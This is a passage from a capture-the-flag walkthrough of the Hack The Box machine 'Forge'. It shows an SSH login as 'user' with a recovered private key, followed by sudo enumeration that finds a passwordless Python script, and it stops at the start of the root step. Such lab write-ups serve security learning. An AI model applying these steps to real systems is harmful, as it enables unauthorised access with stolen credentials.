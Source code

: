 
remember to give 600 permission to id_rsa
```bash
chmod 600 id_rsa 
```
and as the ftp has username as user we will try that for ssh also
and now lets connect to ssh

```bash
└─# ssh user@forge.htb -i id_rsa
The authenticity of host 'forge.htb (10.129.220.174)' can't be established.
ECDSA key fingerprint is SHA256:e/qp97tB7zm4r/sMgxwxPixH0d4YFnuB6uKn1GP5GTw.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'forge.htb,10.129.220.174' (ECDSA) to the list of known hosts.
Welcome to Ubuntu 20.04.3 LTS (GNU/Linux 5.4.0-81-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Wed 15 Sep 2021 03:24:58 PM UTC

  System load:           0.0
  Usage of /:            43.6% of 6.82GB
  Memory usage:          22%
  Swap usage:            0%
  Processes:             223
  Users logged in:       0
  IPv4 address for eth0: 10.129.220.174
  IPv6 address for eth0: dead:beef::250:56ff:feb9:ca1c


0 updates can be applied immediately.


The list of available updates is more than a week old.
To check for new updates run: sudo apt update

Last login: Fri Aug 20 01:32:18 2021 from 10.10.14.6
user@forge:~$ 

```
And we are in

## Root

so after checking sudo permission we can se that user can execute a python script with no password.

```bash 
user@forge:~$ sudo -l
Matching Defaults entries for user on forge:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User user may run the following commands on forge:
    (ALL : ALL) NOPASSWD: /usr/bin/python3 /opt/remote-manage.py

```
